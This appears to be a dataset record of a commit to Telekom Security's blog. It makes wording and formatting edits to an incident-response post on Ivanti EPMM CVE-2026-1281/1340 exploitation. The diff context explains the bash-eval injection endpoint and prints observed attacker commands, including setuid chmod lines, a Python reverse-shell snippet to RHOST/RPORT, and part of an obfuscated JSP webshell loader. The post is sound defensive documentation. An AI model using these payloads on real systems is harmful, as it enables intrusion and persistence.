

Before and after one commit to telekom-security/telekom-security.github.io, a Jekyll site: the page built from _posts/2026-03-03-ivanti-CVE-2026-1281-exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 342 px. Shown: the whole window at 91% size, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Revise CVE-2026-1281 exploitation post for clarity
Updated text for clarity and corrected formatting issues in the post regarding CVE-2026-1281 and CVE-2026-1340 exploitation.

````diff
--- a/_posts/2026-03-03-ivanti-CVE-2026-1281-exploitation.md
+++ b/_posts/2026-03-03-ivanti-CVE-2026-1281-exploitation.md
@@ -10,13 +10,13 @@
 
 Last week, our [Incident Response team](https://public.telekom.de/produkte/public-cyber-security/security-testing) was engaged in multiple incidents involving active exploitation of these vulnerabilities across different customer environments. In several cases, threat actors had already established persistence and initiated post-exploitation activities.
 
-This post consolidates key findings derived from our incident response engagements related to CVE-2026-1281 and CVE-2026-1340. It provides insights into observed attacker tradecraft and initial access patterns. The significant time gap between the initial disclosure and our analysis has resulted in a saturated threat landscape. Multiple threat actors / botnets have since established persistence, creating a high level of background noise. Therefore we're avoiding attribution and detailed analysis and instead focus on documentation about our findings.
+This post consolidates key findings derived from our incident response engagements related to CVE-2026-1281 and CVE-2026-1340. It provides insights into observed attacker tradecraft and initial access patterns. Since the initial vulnerability disclosure, a saturated threat landscape has evolved. Multiple threat actors / botnets have since established persistence, creating a high level of background noise. Therefore we're avoiding attribution and detailed analysis and instead focus on documentation about our findings.
 
 <br />
 
 ### How the exploit works
 
-Both CVE-2026-1281 and CVE-2026-1340 are critical pre-authentication Remote Command Execution (RCE) vulnerabilities with a CVSS score of 9.8. The vulnerabilities used in ongoing exploitation campaigns are caused by unsafe handling of attacker-controlled input in a server-side Bash script. In plain terms: an internet-exposed EPMM web endpoint forwards parts of an incoming request into a script, and due to a shell-evaluation bug, that input can be interpreted as code—so the device ends up running commands the attacker chooses.
+Both CVE-2026-1281 and CVE-2026-1340 are critical pre-authentication Remote Command Execution (RCE) vulnerabilities with a CVSS score of 9.8. The vulnerabilities used in ongoing exploitation campaigns are caused by unsafe handling of attacker-controlled input in a server-side Bash script. In plain terms: an internet-exposed EPMM web endpoint forwards parts of an incoming request into a script, and due to a shell-evaluation bug, that input can be interpreted as code — so the device ends up running commands the attacker chooses.
 
 The vulnerable bash scripts are ``/mi/bin/map-appstore-url`` and ``/mi/bin/map-aft-store-url``. Both are called when specific HTTP endpoints are requested. As Watchtowr described in a blog post, a vulnerable HTTP endpoint corresponds to the pattern: ``/mifs/c/appstore/fob/3/<int>/sha256:<something1>/<something2>.ipa``. For example, a working exploit request looks like this:
 
@@ -28,9 +28,9 @@
 The parameters **``st``**, and **``h``** are not chosen arbitrarily, but are crafted specifically for exploitation. The exact mechanism how the exploit works is described in depth by Watchtowr. For now, the key takeaways are:
 
 - The value of the **``st``** argument corresponds to an existing variable name in the bash script. Specifically, **``theValue``** holds the value of the last argument passed to the bash script. Furthermore, gPath also corresponds to an existing variable in the bash script, though its value does not matter for the exploit to work.
-- The key detail of the exploit is that at some point in the vulnerable bash script, the value theValue is evaluated as a bash expression. For the above example, this means that **``gPath[`sleep 5`]``** is evaluated, causing bash to execute the inner command sleep 5 in an attempt to calculate an array index that can be used to access **``gPath``**. Since the inner command is provided by the attacker, this results in arbitrary command execution.
+- The key detail of the exploit is that at some point in the vulnerable bash script, the value **``theValue``** is evaluated as a bash expression. For the above example, this means that **``gPath[`sleep 5`]``** is evaluated, causing bash to execute the inner command ``sleep 5`` in an attempt to calculate an array index that can be used to access **``gPath``**. Since the inner command is provided by the attacker, this results in arbitrary command execution.
 
-None of the above steps requires authentication. This means that the vulnerability can be exploited by anyone who is able to connect to vulnerable appliances, for example via the internet. Moreover, following release of example exploit requests, threat actors rapidly adopted the exploit in various malicious activities.
+None of the above steps require authentication. This means that the vulnerability can be exploited by anyone who is able to connect to vulnerable appliances, for example via the internet. Moreover, following release of example exploit requests, threat actors rapidly adopted the exploit in various malicious activities.
 
 <br />
 
@@ -44,15 +44,15 @@
 
 The injected commands were primarily designed to validate successful remote code execution. Commonly observed commands included:
 
-- id
-- whoami
-- hostname
-- passwd
-- wget
-- ps
-- echo-based output redirection
-- sleep and true for timing and execution control
-- rm commands for cleanup of temporary artifacts
+- ``id``
+- ``whoami``
+- ``hostname``
+- ``passwd``
+- ``wget``
+- ``ps``
+- ``echo``-based output redirection
+- ``sleep`` and ``true`` for timing and execution control
+- ``rm`` commands for cleanup of temporary artifacts
 
 In several cases, command output was redirected into web-accessible paths under the Tomcat webroot, including:
 
@@ -88,7 +88,7 @@
 
 - ``chmod +s /usr/bin/env``
 
-Indicators point to 403.jsp being used as a webshell location:
+Indicators point to ``403.jsp`` being used as a webshell location:
 
 - Attempted permission manipulation / privilege-related command:
   - ``chmod +s /bin/sh > /mi/tomcat/webapps/mifs/403.jsp``
@@ -140,7 +140,7 @@
     new U(this.getClass().getClassLoader()).g(p(l)).newInstance().equals(pageContext);
 } % >
 ```
-<br >
+<br />
 The observed backdoors correspond to the ``403.jsp`` described by [Defused](https://defusedcyber.com/ivanti-epmm-sleeper-shells-403jsp) and ``401.jsp`` described by [Palo Alto](https://unit42.paloaltonetworks.com/ivanti-cve-2026-1281-cve-2026-1340/).
 
 #### 3. Reverse Shell and Interactive Access Attempts
@@ -155,7 +155,7 @@
 s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
 [os.dup2(s.fileno(),fd) for fd in (0,1,2)]"
 ```
-- nc and ncat interactive shell attempts
+- ``nc`` and ``ncat`` interactive shell attempts
 
 #### 4. Payload Retrieval and Tool Deployment
 
````
Also changed, not shown: other parts of _posts/2026-03-03-ivanti-CVE-2026-1281-exploitation.md (+1 -1 lines).
